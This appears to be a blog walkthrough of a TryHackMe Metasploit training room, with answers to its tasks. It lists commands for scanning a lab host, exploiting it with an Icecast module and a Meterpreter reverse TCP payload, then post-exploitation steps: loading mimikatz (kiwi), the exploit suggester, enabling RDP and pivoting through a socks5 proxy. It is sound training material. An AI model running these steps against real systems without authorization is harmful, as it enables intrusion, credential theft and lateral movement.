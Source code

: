 ```yaml
---
title: "Welcome to Jekyll!"
date: 2019-04-18T15:34:30-04:00
categories:
  - blog
tags:
  - Jekyll
  - update
---
```


---

RP Metasploit | TryHackMe
Learn to use Metasploit, a tool to probe and exploit vulnerabilities on networks and servers.
Task 1 Intro
Kali and most other security distributions of Linux include Metasploit by default. If you are using a different distribution of Linux, verify that you have it installed or install it from the Rapid 7 Github repository.
Metasploit

---

Task 2 Initializing…
First things first, we need to initialize the database! Let's do that now with the command
msfdb init
msfdb initBefore starting Metasploit, we can view some of the advanced options we can trigger for starting the console. Check these out now by using the command:
msfconsole -h
msfconsole -hWe can start the Metasploit console on the command line without showing the banner or any startup information as well. What switch do we add to msfconsole to start it without showing this information? This will include the '-'
-q
msfconsole -qOnce the database is initialized, go ahead and start Metasploit via the command:
msfconsole
msfconsoleAfter Metasploit has started, let's go ahead and check that we've connected to the database. Do this now with the command:
db_status
db_statusCool! We've connected to the database, which type of database does Metasploit 5 use?
postgresql

---

Task 3 Rock'em To The Core
Using the help menu, let's now learn the base commands and the module categories in Metasploit. Nearly all of the answers to the following questions can be found in the Metasploit help menu.
Let's go ahead and start exploring the help menu. On the Metasploit prompt (where we'll be at after we start Metasploit using msfconsole), type the command:
help
helpThe help menu has a very short one-character alias, what is it?
?
Finding various modules we have at our disposal within Metasploit is one of the most common commands we will leverage in the framework. What is the base command we use for searching?
search
searchOnce we've found the module we want to leverage, what command we use to select it as the active module?
use
useHow about if we want to view information about either a specific module or just the active one we have selected?
info
infoMetasploit has a built-in netcat-like function where we can make a quick connection with a host simply to verify that we can 'talk' to it. What command is this?
connect
connectEntirely one of the commands purely utilized for fun, what command displays the motd/ascii art we see when we start msfconsole (without -q flag)?
banner
bannerWe'll revisit these next two commands shortly, however, they're two of the most used commands within Metasploit. First, what command do we use to change the value of a variable?
set
setMetasploit supports the use of global variables, something which is incredibly useful when you're specifically focusing on a single box. What command changes the value of a variable globally?
setg
setgNow that we've learned how to change the value of variables, how do we view them? There are technically several answers to this question, however, I'm looking for a specific three-letter command which is used to view the value of single variables.
get
getHow about changing the value of a variable to null/no value?
unset
unsetWhen performing a penetration test it's quite common to record your screen either for further review or for providing evidence of any actions taken. This is often coupled with the collection of console output to a file as it can be incredibly useful to grep for different pieces of information output to the screen. What command can we use to set our console output to save to a file?
spool
spoolLeaving a Metasploit console running isn't always convenient and it can be helpful to have all of our previously set values load when starting up Metasploit. What command can we use to store the settings/active datastores from Metasploit to a settings file? This will save within your msf4 (or msf5) directory and can be undone easily by simply removing the created settings file.
save
save

---

Task 4 Modules For Every Occasion!
Metasploit consists of six core modules that make up the bulk of the tools you will utilize within it. Let's take a quick look through the various modules, their purposes, and some of the commands associated with modules.
*Note, this diagram includes both the interfaces and *most\* of the modules. This diagram does not include the 'Post' module.Easily the most common module utilized, which module holds all of the exploit code we will use?
exploit
Used hand in hand with exploits, which module contains the various bits of shellcode we send to have executed following exploitation?
payload
Which module is most commonly used in scanning and verification machines are exploitable? This is not the same as the actual exploitation of course.
auxiliary
One of the most common activities after exploitation is looting and pivoting. Which module provides these capabilities?
post
Commonly utilized in payload obfuscation, which module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection?
encoder
Last but not least, which module is used with buffer overflow and ROP attacks?
nop
Not every module is loaded in by default, what command can we use to load different modules?
load

---

Task 5 Move That Shell!
Remember that database we set up? In this step, we're going to take a look at what we can use it for and exploit our victim while we're at it!
As you might have noticed, up until this point we haven't touched nmap in this room, let alone perform much recon on our victim box. That'll all change now as we'll take a swing at using nmap within Metasploit. Go ahead and deploy the box now, it may have up to a three-minute delay for starting up our target vulnerable service.
Note, Metasploit does support different types of port scans from within the auxiliary modules. Metasploit can also import other scans from nmap and Nessus just to name a few.

Metasploit comes with a built-in way to run nmap and feed it's results directly into our database. Let's run that now by using the command
db_nmap -sV 10.10.199.128
db_nmap -sV 10.10.199.128What service does nmap identify running on port 135?
msrpc
msrpcLet's go ahead and see what information we have collected in the database. Try typing the command hosts into the msfconsole now.
hostsHow about something else from the database, try the command services now.
servicesOne last thing, try the command vulns now. This won't show much at the current moment, however, it's worth noting that Metasploit will keep track of discovered vulnerabilities. One of the many ways the database can be leveraged quickly and powerfully.
vulnsNow that we've scanned our victim system, let's try connecting to it with a Metasploit payload. First, we'll have to search for the target payload. In Metasploit 5 (the most recent version at the time of writing) you can simply type use followed by a unique string found within only the target exploit. For example, try this out now with the following command use icecast. What is the full path for our exploit that now appears on the msfconsole prompt? \*This will include the exploit section at the start
exploit/windows/http/icecast_header
exploit/windows/http/icecast_headerWhile that use command with the unique string can be incredibly useful that's not quite the exploit we want here. Let's now run the command search multi/handler.
multi/handlerGo ahead and run the command use NUMBER_NEXT_TO exploit/multi/handler wherein the number will be what appears in that far left column (typically this will be 4 or 5). In this way, we can use our search results without typing out the full name/path of the module we want to use.
use 5
use 5What is the name of the column on the far left side of the console that shows up next to 'Name'?

#

Now type the command use NUMBER_FROM_PREVIOUS_QUESTION. This is the short way to use modules returned by search results.
Next, let's set the payload using this command set PAYLOAD windows/meterpreter/reverse_tcp. In this way, we can modify which payloads we want to use with our exploits. Additionally, let's run this command set LHOST YOUR_IP_ON_TRYHACKME. You might have to check your IP using the command ip addr, it will likely be your tun0 interface.
use show options commandLet's go ahead and return to our previous exploit, run the command use icecast to select it again.
One last step before we can run our exploit. Run the command set RHOSTS 10.10.199.128 to tell Metasploit which target to attack.
always show options to see if all requirement are metOnce you're set those variables correctly, run the exploit now via either the command exploit or the command run -j to run this as a job.
recommend use -j commandOnce we've started this, we can check all of the jobs running on the system by running the command jobs
After we've established our connection in the next task, we can list all of our sessions using the command sessions. Similarly, we can interact with a target session using the command sessions -i SESSION_NUMBER
sessionssessions -i SESSION_NUMBER

---

Task 6 Were In, Now What?
Now that we've got a shell into our victim machine, let's take a look at several post-exploitation modules actions we can leverage! Most of the questions in the following section can be answered by using the Meterpreter help menu which can be accessed through the 'help' command. This menu dynamically expands as we load more modules.
First things first, our initial shell/process typically isn't very stable. Let's go ahead and attempt to move to a different process. First, let's list the processes using the command ps. What's the name of the spool service?
psLet's go ahead and move into the spool process or at least attempt to! What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!
migrate
Well that migration didn't work, let's find out some more information about the system so we can try to elevate. What command can we run to find out more information regarding the current user running the process we are in?
getuid
getuidHow about finding more information out about the system itself?
sysinfo
sysinfoThis might take a little bit of googling, what do we run to load mimikatz (more specifically the new version of mimikatz) so we can use it?
load kiwi
Let's go ahead and figure out the privileges of our current user, what command do we run?
getprivs
getprivsWhat command do we run to transfer files to our victim computer?
upload
How about if we want to run a Metasploit module?
run
A simple question but still quite necessary, what command do we run to figure out the networking information and interfaces on our victim?
ipconfig
Let's go ahead and run a few post modules from Metasploit. First, let's run the command run post/windows/gather/checkvm. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.
post/windows/gather/checkvmNext, let's try: run post/multi/recon/local_exploit_suggester. This will check for various exploits which we can run within our session to elevate our privileges. Feel free to experiment using these suggestions, however, we'll be going through this in greater detail in the room Ice.
run post/multi/recon/local_exploit_suggesterFinally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: run post/windows/manage/enable_rdp
run post/windows/manage/enable_rdpOne quick extra question, what command can we run in our meterpreter session to spawn a normal system shell?
shell
shell

---

Task 7 Making Cisco Proud
Last but certainly not least, let's take a look at the autorouting options available to us in Metasploit. While our victim machine may not have multiple network interfaces (NICs), we'll walk through the motions of pivoting through our victim as if it did have access to extra networks.
Let's go ahead and run the command run autoroute -h, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.
run autoroute -s 172.18.1.0 -n 255.255.255.0
Additionally, we can start a socks5 proxy server out of this session. Background our current meterpreter session and run the command search server/socks5. What is the full path to the socks5 auxiliary module?
auxiliary/server/socks5
Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks5 server with proxychains?
proxychains
